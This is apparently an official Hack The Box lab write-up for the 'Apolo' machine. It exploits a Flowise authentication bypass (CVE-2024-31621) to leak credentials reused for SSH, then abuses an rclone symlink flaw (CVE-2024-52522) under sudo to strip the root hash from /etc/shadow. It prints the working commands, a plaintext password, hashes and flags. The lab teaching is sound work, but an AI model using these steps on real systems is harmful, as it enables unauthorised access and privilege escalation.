 ![](../../assets/banner.png)
<img src="../../assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />	<font size="10">Apolo</font>
		27<sup>th</sup> November 2024 / Document No D****.100.***
		Prepared By: k1ph4ru
		Machine Author: k1ph4ru
		Difficulty: <font color=green>Easy</font>
		Classification: Official	







# Enumeration
## Nmap
```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.24 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.231.24
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-27 04:54 EST
Nmap scan report for 10.129.231.24
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://apolo.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```
`Nmap` reveals only two ports are open. On port `22` `SSH` is running, and on port `80` an `Nginx` web server. Since we do not have any credentials to login via `SSH,` we will start by looking at port `80`. Browsing to port `80`, we notice we are redirected to `apolo.htb` . We need to add this to `/etc/hosts/` file. Now we are able to visit `apolo.htb`.

```
echo "10.129.231.24 apolo.htb" | sudo tee -a /etc/hosts
```

Here we come across a landing page about protecting frontier cluster assets.

![landing](./apolo.assets/landing.png)

Looking at the sentinel page, we see a hyperlink that mentions the use of AI technology.

![ai_page](./apolo.assets/ai_page.png)

Clicking on the hyperlink, it redirects to the `ai.apolo.htb` domain. We need to add this domain to our `/etc/hosts` file to ensure proper resolution using the following command, which appends the domain to the IP address.

```bash 
sudo sed -i '/10\.129\.231\.24/ s/$/ ai.apolo.htb/' /etc/hosts
```

This command works by using `sed (stream editor)` to locate the line in `/etc/hosts` containing the IP `10.129.231.24` and appending `ai.apolo.htb` to the end of that line.

# Foothold

Visiting the page, we come across `Flowise AI`, which is an open-source low-code tool for developers to build customized `LLM `orchestration flows and AI agents.. 

![flowise_login](./apolo.assets/flowise_login.png)

We also see a login page, but since we do not have credentials to access it, we perform a quick Google search for vulnerabilities affecting `Flowise AI` and we come across [CVE-2024-31621](https://nvd.nist.gov/vuln/detail/CVE-2024-31621). The vulnerability that affects `Flowise` versions up to `1.6.5` allows unauthenticated users to access restricted endpoints without valid credentials. 

We also come across this [page](https://www.exploit-db.com/exploits/52001), which explains more details about the vulnerability. In order to exploit it, we first intercept a `GET` request using `Burp Suite`.



![get_req](./apolo.assets/get_req.png)

We then proceed to send this to the `Repeater` and add `/Api/v1/credentials` to the GET request.

![mongo_creds](./apolo.assets/mongo_creds.png)

After sending the request, we see that we receive a response with credentials for `MongoDB` and the `ID`. We can then proceed to send the `GET` request with the `ID` parameter to retrieve the `MongoDB` credentials.

![mongo_creds_id](./apolo.assets/mongo_creds_id.png)

From the response, we see the following credentials:

```mongo
lewis:C0mpl3xi3Ty!_W1n3
```

Attempting to log in to SSH using the credentials works.

```bash 
ssh lewis@10.129.231.24                   
The authenticity of host '10.129.231.24 (10.129.231.24)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.129.231.24' (ED25519) to the list of known hosts.
lewis@10.129.231.24's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 27 Nov 2024 10:26:31 AM UTC

  System load:             0.0
  Usage of /:              34.9% of 17.55GB
  Memory usage:            82%
  Swap usage:              24%
  Processes:               234
  Users logged in:         0
  IPv4 address for ens160: 10.129.231.24
  IPv6 address for ens160: dead:beef::250:56ff:feb4:f408


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Nov 21 08:40:36 2024 from 10.10.14.88
lewis@apolo:~$ id
uid=1000(lewis) gid=1000(lewis) groups=1000(lewis)
lewis@apolo:~$ 
```

Here, we can then grab the user flag.

```bash 
lewis@apolo:~$ cat user.txt 
HTB{llm_ex9l01t_4_RC3}
lewis@apolo:~$ 
```

# Privilege Escalation

Looking at the sudo configuration `sudo -l`, we see that the user `lewis` can run `rclone` without a password as any user. `rclone` is a command-line program used to sync files and directories to and from different cloud storage providers.

```bash 
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

We can then check the version using the command `rclone --version`, 

```bash 
lewis@apolo:~$ rclone --version 
rclone v1.68.1
- os/version: ubuntu 20.04 (64 bit)
- os/kernel: 5.4.0-200-generic (x86_64)
- os/type: linux
- os/arch: amd64
- go/version: go1.23.1
- go/linking: static
- go/tags: none
lewis@apolo:~$ 
```

Here we see the version is `v1.68.1`. A quick Google search leads us to this vulnerability [CVE-2024-52522](https://nvd.nist.gov/vuln/detail/CVE-2024-52522), which was fixed in `rclone` version `1.68.2`, and the currently installed version is vulnerable. The vulnerability involves insecure handling of symlinks when using the `--links` and `--metadata` flags in `rclone`. These flags allow `rclone` to follow symlinks and copy metadata, respectively. This flaw lets unprivileged users indirectly modify the ownership and permissions of files that symlinks point to, particularly when the copy operation is executed by a superuser or privileged process. For more information on this, we also find a detailed [GitHub page](https://github.com/rclone/rclone/security/advisories/GHSA-hrxh-9w67-g4cv), which explains how to replicate the issue. First, we create a folder in the `/tmp` directory to store the symlink.

```bash 
 mkdir -p /tmp/malicious_dir
```

Next, we create a symlink to the `/etc/shadow` file that stores password hashes.

```bash 
ln -s /etc/shadow /tmp/malicious_dir/shadow_symlink
```

Then, we run `rclone` to copy the directory, which will follow the symlink using the `--links` flag, and the `--metadata` flag, which ensures that metadata is copied as well. When `rclone` processes the `/tmp/malicious_dir`, it follows the symlink and attempts to copy the contents of the `/etc/shadow` file.

```bash 
lewis@apolo:~$ sudo rclone copy /tmp/malicious_dir /destination_dir --links --metadata
2024/11/27 10:46:46 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
```

Finally, we edit the `shadow` file and remove the password hash for the root user.

```bash 
root:$6$tXGOWajYaarOSaBl$3ERntPuO48c8RpGIPf/qrfLqezppfW/t0wqRTpzjmaBLYLVWBj.TrLkgJdVKdQeh2cjoBwQ6dVU98ckLQgCCG0:20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
<...SNIP...>
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
```

Looking at the contents of the `shadow` file, we see that the password hash for the `root` user has been removed `root::20024:0:99999:7:::`. This means that the `root` user now has no password set and can be accessed without authentication.

```bash 
lewis@apolo:~$ cat /destination_dir/shadow_symlink 
root::20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
<...SNIP...>
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18822:0:99999:7:::
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
lewis@apolo:~$ 
```

Now we can run `su root` to switch to the root user and grab the root flag.

```bash 
lewis@apolo:~$ su root
root@apolo:/home/lewis# cat /root/root.txt
HTB{cl0n3_rc3_f1l3}
root@apolo:/home/lewis# 
```

